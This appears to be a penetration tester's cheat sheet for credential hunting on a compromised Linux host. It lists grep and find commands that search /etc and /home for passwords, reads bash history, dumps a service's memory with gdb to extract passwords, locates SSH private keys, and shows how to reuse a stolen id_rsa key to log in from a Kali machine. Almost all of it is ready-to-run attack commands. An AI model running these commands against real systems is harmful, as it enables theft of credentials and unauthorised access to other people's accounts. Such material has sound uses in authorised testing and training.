 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Grep & Find
```bash - target
grep --color=auto -rnw '/etc' -ie "PASSWORD" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/etc' -ie "DBPASS" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/etc' -ie "PASS" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/etc' -ie "PWD" --color=always 2> /dev/null
```
- [ ] /etc

```bash - target
grep --color=auto -rnw '/home' -ie "PASSWORD" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/home' -ie "DBPASS" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/home' -ie "PASS" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/home' -ie "PWD" --color=always 2> /dev/null
```
- [ ] /home

Using Find:
```bash - target
find /etc -type f -exec grep -i -I "PASSWORD" {} 2> /dev/null \;
```

```bash - target
find /etc -type f -exec grep -i -I "DBPASS" {} 2> /dev/null \;
```

```bash - target
find /etc -type f -exec grep -i -I "PASS" {} 2> /dev/null \;
```

```bash - target
find /etc -type f -exec grep -i -I "PWD" {} 2> /dev/null \;
```
- [ ] /etc

```bash - target
find /home -type f -exec grep -i -I "PASSWORD" {} 2> /dev/null \;
```

```bash - target
find /home -type f -exec grep -i -I "DBPASS" {} 2> /dev/null \;
```

```bash - target
find /home -type f -exec grep -i -I "PASS" {} 2> /dev/null \;
```

```bash - target
find /home -type f -exec grep -i -I "PWD" {} 2> /dev/null \;
```
- [ ] /home

Locate in file names:
```bash - target
locate password | more
```

grep in bash history:
```bash - target
cat /home/user/.bash_history | grep -i "password"
```

#### Extracting passwords from memory (Privilege Escalation Techniques)
```bash - target
ps -ef
```

```bash - target
ps -ef | grep $SERVICE_NAME
```

```bash - target
gdb -p $PID
```

```bash - target
info proc mappings
```

```bash - target
dump memory $OUTPUT_FILE $START_ADDRESS $STOP_ADDRESS
```

```bash - target
strings /<OUTPUT_FILE> | grep passw
```

#### SSH Key Hunting
```bash - target
find / -iname authorized_keys 2> /dev/null
```

```bash - target
find / -iname id_rsa 2> /dev/null
```

>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjE...4WBrYWxpAQI=
-----END OPENSSH PRIVATE KEY-----

Save found key into KALI file

```bash - kali
mousepad id_rsa
```

```bash - kali
chmod 600 id_rsa
```

```bash - kali
ssh -i id_rsa $USER@$TARGET
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
